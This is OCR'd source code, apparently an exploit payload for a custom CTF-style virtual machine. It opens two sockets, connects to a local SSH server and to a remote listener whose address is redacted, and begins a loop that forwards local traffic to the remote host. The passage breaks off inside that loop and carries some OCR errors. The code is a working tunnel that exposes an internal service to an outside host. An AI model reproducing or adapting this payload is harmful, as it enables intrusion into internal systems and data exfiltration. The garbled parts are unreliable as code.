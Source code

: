 ```python
sys_write:      0x01
sys_socket:     0x29
sys_connect:    0x2a
sys_recvfrom:   0x2d
output: 0
r0: 0x1
r1: 0xdeadbeef
r2: 0x10
zero: 0x0
constMinus1: 0xffffffff
const20: 24
loop_size: 92
test_pad: 0
shit: 0
bad_syscall0: 0
bad_syscall2: 2 
bad_syscall5: 5 
bad_syscall6: 6 

sep: 0x2d2d2d0a 0x0a2d2d2d

sock_args: 2 1 6
connect_localhost_args: 3 sock_addr_local 16
sock_addr_local: 0xae080002 00x0100007f 0 

connect_remote_args: 4 sock_addr_remote 16
sock_addr_remote: 0xae080002 [REDACTED] 0 

write_output_args: 1 output 4
write_test_args: 4 binsh0 4
write_testpad_args: 1 test_pad 4
write_packet_args: 1 buf 
write_packet_size: 632
write_sep_args: 1 sep 8
write_local_args: 3 buf 
write_local_size: 512
write_remote_args: 4 buf 
write_remote_size: 512
recvfrom_local_args: 3 buf 512 0x40 0 addr_len      // Use MSG_DONTWAIT flag (0x40) so we don't block
recvfrom_remote_args: 4 buf 512 0x40 0 addr_len     

addr_len: 0 0 0 0 0
from_addr: 0 0 0 0 0 0 0 0
buf: 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0

start:
// Create two sockets, fd 3 and 4 respectively
0x133769 sys_socket sock_args output
0x133769 sys_socket sock_args output

// Connect to local SSH server and remote listener
0x133769 sys_connect connect_localhost_args output
0x133769 sys_connect connect_remote_args output

// Forwarding loop
// Local -> remote
0x133769 sys_recvfrom recvfrom_local_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
```